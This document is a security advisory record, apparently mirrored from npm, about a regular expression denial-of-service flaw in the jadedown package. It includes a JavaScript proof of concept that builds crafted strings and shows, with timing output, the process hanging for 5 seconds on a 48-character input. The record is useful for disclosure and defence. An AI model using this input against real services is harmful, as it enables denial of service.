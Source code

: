 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Adam Baldwin
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/jadedown
Review-Date: '2016-01-05'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>Recommendation: There is currently no fix. Do not allow untrusted user input into `jadedown`
### Details
jadedown is vulnerable to regular expression denial of service (ReDoS) when certain types of user input is passed in.   "The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression to enter these extreme situations and then hang for a very long time." [1]   ### Proof of concept ``` var jadedown = require('jadedown');  var genstr = function (len, chr) {     var result = "";     for (i=0; i<=len; i++) {         result = result + chr;     }      return result; }   for (i=1;i<=10000000;i=i+1) {     console.log("COUNT: " + i);     var str = genstr(i, 'f') + genstr(i, '#') + '{';     console.log("LENGTH: " + str.length);     var start = process.hrtime();     jadedown(str)      var end = process.hrtime(start);     console.log(end); }  ```  Results demonstrating blocking for 5 seconds using only 48 characters.  ``` $ node jadedown.js COUNT: 1 LENGTH: 6 [ 0, 4014065 ] COUNT: 4 LENGTH: 12 [ 0, 503507 ] COUNT: 7 LENGTH: 18 [ 0, 325225 ] COUNT: 10 LENGTH: 24 [ 0, 1632684 ] COUNT: 13 LENGTH: 30 [ 0, 7541230 ] COUNT: 16 LENGTH: 36 [ 0, 80889495 ] COUNT: 19 LENGTH: 42 [ 0, 636009936 ] COUNT: 22 LENGTH: 48 [ 5, 820586760 ] ```  # Timeline - October 24, 2015 - Vulnerability Identified - October 24, 2015 - Maintainers Notified - October 25, 2015 - Response from Maintainers with intent to fix - January 5, 2016 - Advisory Published - January 11, 2016 - CVE Requested
<br><br>• Affected Versions: <=99.999.99999
<br>• Patched Versions: <0.0.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.

